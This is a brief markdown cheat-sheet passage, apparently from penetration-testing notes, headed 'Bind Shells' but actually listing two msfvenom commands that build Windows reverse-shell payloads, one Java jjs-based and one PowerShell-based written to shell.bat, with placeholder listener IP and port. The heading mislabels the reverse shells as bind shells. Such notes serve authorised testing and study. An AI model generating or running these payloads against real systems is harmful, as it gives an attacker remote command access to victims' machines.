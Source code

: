 # Bind Shells

## Java

`$ msfvenom -p cmd/windows/jjs_reverse_tcp lhost=<IP> lport=<PORT>`

## Powershell

`$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o shell.bat`